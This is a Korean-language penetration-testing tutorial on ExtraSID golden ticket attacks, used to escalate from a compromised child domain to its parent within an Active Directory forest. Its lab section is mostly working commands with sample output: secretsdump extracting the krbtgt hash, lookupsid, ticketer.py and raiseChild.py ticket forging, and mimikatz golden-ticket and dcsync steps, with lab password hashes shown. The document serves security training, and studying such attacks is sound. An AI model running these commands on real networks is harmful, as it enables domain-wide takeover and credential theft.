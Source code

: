 # External SID Golden Ticket

## SID와 External SID

* **SID (Security Identifier):** 윈도우 운영체제(와 액티브 디렉토리)에서 특정한 security principal 및 그룹을 구별해내기 위한 문자열이다. 액티브 디렉토리에서는 거의 모든 액티브 디렉토리 리소스(유저, 그룹, 머신 계정, 등)들에게 부여된다.
* **External SID:** 도메인 A의 유저가 Two-way Trust Relationship을 갖고 있는 다른 도메인 B의 리소스에 커버로스 인증을 이용해 접근 할 때, TGT에 도메인 B의 SID 뿐만 아니라 유저의 원래 소속 도메인이였던 도메인 A의 SID를 같이 추가해서 넣는다. 이를 External SID라고 부른다. 본인의 원래 도메인(A)가 아닌 다른 도메인(B)의 리소스에 접근 할 때, 유저 본인의 원래 소속 (도메인 A)을 보여주기 위한 용도로 사용된다.

굳이 비유를 하자면 우리나라 사람이 미국을 방문할 때, 미국 비자를 갖고 가지만, 그와 동시에 자신의 원래 소속을 증명하기 위해 한국 신분증 및 여권을 챙겨가는 것과 비슷하다. 미국의 입장에서 한국의 신분증은 외부 신분증, 즉, External SID가 된다.

## Forest is the only Security Boundary

마이크로소프트사에 따르면 액티브 디렉토리내의 보안 경계(Security Boundary)의 개념을 가지고 있는 최소 단위는 포레스트(Forest)다. 즉, 공격자가 포레스트 A에서 포레스트 B로 넘어가는/접근하는 것은 취약점이자 잘못된 설정 (misconfiguration)으로 간주해 보안 패치를 해주겠다는 것이다.

하지만 이 말은 곧 1개의 포레스트 안에 수십개의 도메인이 있고, 공격자가 그 도메인들을 마음껏 횡적이동을 하고 접근할 수 있다고 하더라도, 이를 보안적인 문제로 보지 않는다는 말이기도 하다. 한 포레스트 안의 도메인들은 보안 경계로 간주하지 않기 때문이다.

> ["Each forest is ... a security boundary for all objects that are located in the forest" ](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc759073\(v=ws.10\)#forests-as-security-boundaries)

### External SID 와 Parent/Child 도메인

위 개념들은 모두 합하면...

**공격자들은 한 포레스트내의 부모/자식 도메인 중 하나를 장악할 경우, 다른 부모/자식 도메인에 접근 가능한 External SID (extraSID) Golden Ticket을 만들어내 타겟 도메인을 장악할 수 있다.**

예를 들어 1개의 포레스트 안에 4개의 부모/자식 도메인이 있다고 가정해보자. 모든 회사들이 그렇진 않지만, AD 디자인을 잘못 한 회사의 경우 아래와 같이 해외 지사들의 AD 환경을 모두 1개의 포레스트에 넣는 경우가 종종 있다.

* choi.local
* kr.choi.local
* jp.choi.local
* dev.kr.choi.local

이때 만약 공격자가 일본 지사의 액티브 디렉토리 jp.choi.local을 장악한다면, `choi.local`, `kr.choi.local`, `dev.kr.choi.local` 을 모두 장악할 수 있게 된다. 꽤 무서운 개념이지만, 마이크로소프트사가 1개의 포레스트 안의 도메인들은 원래, 디자인적으로 보안 경계로 인정하지 않기 때문에 이는 취약점도, 잘못된 설정도 아니다.

## 실습

공격자의 입장에서 다음과 같은 상황이라고 가정해보자.

* `pci.choi.local`: 자식 도메인. 현재 공격자가 장악한 상태.
* `choi.local` : 부모 도메인. 공격자가 공격/장악하고 싶은 도메인.
* 두개의 도메인 모두 1개의 포레스트 안에 존재.

공격자는 이미 `pci.choi.local` 도메인을 장악한 상태에서 더 많은 호스트들과 유저들이 있는 부모 도메인인 `choi.local` 을 장악하고 싶다. 이때 External SID (extraSID) Golden Ticket을 이용하면 된다.

### 사전 조건

1. 장악한 도메인(`pci.choi.local`) KRBTGT 계정의 NT 해시

```
impacket-secretsdump pci.choi.local/Administrator:'pass'@<도메인컨트롤러> -just-dc-user <krbtgt>

impacket-secretsdump pci.choi.local/Administrator:'Password123!'@dc1.pci.choi.local -just-dc-user pci/krbtgt           

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b8f1a4fbe49f5418a7a8bcb72586f072:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:93cbbe496fbb65efd56a4b569fa1ceda62b4229776235a0a6c28df847d68204f
krbtgt:aes128-cts-hmac-sha1-96:b7a532495db42547d4b0eb8e881021cb
```

2. 장악한 도메인(`pci.choi.local`)과 공격할 도메인(`choi.local`)의 도메인 SID 수집

```
# 장악한 도메인 SID 수집 
impacket-lookupsid pci.choi.local/Administrator:'Password123!'@dc1.pci.choi.local 0

[*] Domain SID is: S-1-5-21-2126976142-166271992-3103661063

# 공격할 도메인 SID 수집 
impacket-lookupsid pci.choi.local/Administrator:'Password123!'@dc01.choi.local 0

[*] Domain SID is: S-1-5-21-915960992-2308152741-2736258720
```

## 공격

공격에 큰 영향을 주는 변수는 바로 현재 장악한 도메인의 도메인 컨트롤러가 2021년 11월의 [KB5008380](https://support.microsoft.com/en-gb/topic/kb5008380-authentication-updates-cve-2021-42287-9dafac11-e0d0-4cb8-959a-143bd0201041) 패치 적용 여부다. 공격자가 장악한 도메인의 도메인 컨트롤러에게 골든 티켓을 요청하는 공격이기 때문에 패치 여부가 중요하다.

### 공격 - KB5008380 패치가 됐을 때

이 시나리오에서는 장악한 도메인 컨트롤러가 패치가 됐다고 가정한다.

패치가 됐다면 다음과 같은 플래그들을 꼭 넣어줘야한다.

* `-extra-pac`
* `-user-id <RID>`: 발급 받을 유저의 RID - 유저 이름과 일치 해야한다. (대부분 500 - Administrator 사용)
* `<username>`: 발급 받을 유저 이름 - RID와 일치 해야한다. (대부분 Administrator 사용)

```
ticketer.py -nthash <장악도메인 KRBTGT NT 해시> -domain <장악한도메인> -domain-sid <장악한도메인-SID> -extra-sid <공격할도메인-SID-519> -duration 1 -extra-pac -user-id 500 Administrator

ticketer.py -nthash b8f1a4fbe49f5418a7a8bcb72586f072 -domain pci.choi.local -domain-sid S-1-5-21-2126976142-166271992-3103661063 -extra-sid S-1-5-21-915960992-2308152741-2736258720-519 -duration 1 -extra-pac -user-id 500 Administrator
```

External SID 골든 티켓을 받았다면 이를 사용한다.

```
export KRB5CCNAME=Administrator.ccache

secretsdump.py 장악도메인/Administrator@DC.공격도메인 -k -no-pass 
```

### 공격 - 패치가 안됐을 때

패치가 안됐다면 impacket suite의 `raiseChild.py` 스크립트를 이용해서 자동으로 공격을 진행한다.

```
raiseChild.py 장악도메인/유저:비밀번호

raiseChild.py pci.choi.local/Administrator:'Password123!'
```

### 공격 - 윈도우

mimikatz 바이너리를 이용했지만, 다른 종류의 mimikatz 혹은 인-메모리 실행도 가능하다. 간단한 실습을 위해서 바이너리를 이용한다.

```
# 장악한 도메인의 아무 호스트에서... 
mimikatz # kerberos::golden /user:Administrator /domain:pci.choi.local /sid:S-1-5-21-2126976142-166271992-3103661063 /krbtgt:b8f1a4fbe49f5418a7a8bcb72586f072 /sids:S-1-5-21-915960992-2308152741-2736258720-519 /ptt

Golden ticket for 'Administrator @ pci.choi.local' successfully submitted for current session

mimikatz # lsadump::dcsync /domain:choi.local /user:choi\krbtgt

[ . . . ] 

SAM Username         : krbtgt
Credentials:
  Hash NTLM: a8f31b642e60b362cc17588df4c5b1e2
```

## 대응 방안

원칙적으로는 없다. 1개의 포레스트 안의 도메인들은 보안 경계로 간주하지 않기 때문이다. SID Filtering 등을 이용하는 방법도 있겠지만, 이와 관련해서는 추가 연구가 더 필요하다.

### 레퍼런스

* https://fortynorthsecurity.com/blog/golden-tickets-and-external-sids-spread-the-compromise/
* https://posts.specterops.io/not-a-security-boundary-breaking-forest-trusts-cd125829518d
